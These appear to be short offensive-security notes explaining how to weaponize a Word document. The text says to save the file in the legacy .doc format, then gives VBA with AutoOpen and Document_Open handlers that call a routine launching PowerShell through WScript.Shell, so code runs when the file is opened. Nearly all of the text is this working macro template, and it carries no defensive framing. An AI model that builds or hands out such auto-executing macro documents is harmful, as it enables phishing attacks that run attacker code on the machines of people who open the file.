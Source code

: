 ## Using MACROS

Save the document as a .doc document (Word 97-2003 option)
navigate to macros and use the following code
one for Auto open the document, the other for Opening the document, and last to run the script that you wish the document to run


![[Pasted image 20231009101852.png]]

Sub AutoOpen()

 MyMacro

End Sub

Sub Document_Open()

 MyMacro
 
End Sub

Sub MyMacro()

 CreateObject("Wscript.Shell").Run "powershell"

End Sub ^655ce0
